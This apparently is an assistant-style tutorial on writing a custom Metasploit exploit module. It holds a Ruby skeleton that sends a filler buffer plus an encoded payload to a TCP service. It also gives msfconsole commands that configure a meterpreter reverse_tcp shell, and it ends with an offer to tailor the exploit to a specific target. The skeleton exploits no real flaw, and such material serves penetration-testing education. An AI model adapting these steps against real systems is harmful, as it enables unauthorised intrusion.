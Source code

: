 Creating a **custom exploit in Metasploit** involves understanding the Metasploit framework, Ruby scripting, and exploit development techniques. Here's a step-by-step approach:

---

### **1. Setup Metasploit Development Environment**
- Install Metasploit Framework on **Kali Linux** or another penetration testing OS.
- Navigate to the Metasploit module directory:
  ```bash
  cd /usr/share/metasploit-framework/modules/exploits/
  ```
- Create a custom exploit module inside an appropriate category:
  ```bash
  mkdir -p custom
  cd custom
  touch my_exploit.rb
  ```

---

### **2. Write the Custom Exploit in Ruby**
Open `my_exploit.rb` and define your exploit module:
```ruby
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  Rank = NormalRanking

  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'Custom Remote Exploit',
      'Description'    => %q{
        This exploit targets a vulnerability in a sample TCP service.
      },
      'License'        => MSF_LICENSE,
      'Author'         => ['Your Name'],
      'Platform'       => 'linux',
      'Targets'        => [['Universal', {}]],
      'Payload'        => {'Space' => 1024},
      'DisclosureDate' => '2025-01-01',
      'DefaultTarget'  => 0
    ))

    register_options([
      Opt::RPORT(9999)  # Target port
    ])
  end

  def exploit
    print_status("Connecting to target...")
    connect

    buffer = "A" * 1024   # Modify this buffer for the actual exploit
    buffer << payload.encoded  # Inject payload

    sock.put(buffer)
    print_good("Payload sent!")

    handler
    disconnect
  end
end
```

---

### **3. Load the Custom Exploit in Metasploit**
- Save the exploit and restart Metasploit:
  ```bash
  msfconsole
  ```
- Reload modules:
  ```msf
  reload_all
  ```
- Search and use the custom exploit:
  ```msf
  use exploit/custom/my_exploit
  set RHOST <target_ip>
  set PAYLOAD linux/x86/meterpreter/reverse_tcp
  set LHOST <your_ip>
  exploit
  ```

---

### **4. Debugging & Testing**
- Use `nc -lvnp 9999` on the target system to test your exploit.
- Modify the buffer size based on the **vulnerability** (e.g., buffer overflow, RCE).
- Use tools like `gdb`, `pwntools`, and `Immunity Debugger` to analyze memory corruption.

---

### **5. Finalizing the Exploit**
- Add **error handling**, **better logging**, and **target fingerprinting**.
- Consider **porting it to Windows**, adding **ROP gadgets**, or **exploiting race conditions**.

Would you like help tailoring this to a **specific target/vulnerability**? 🚀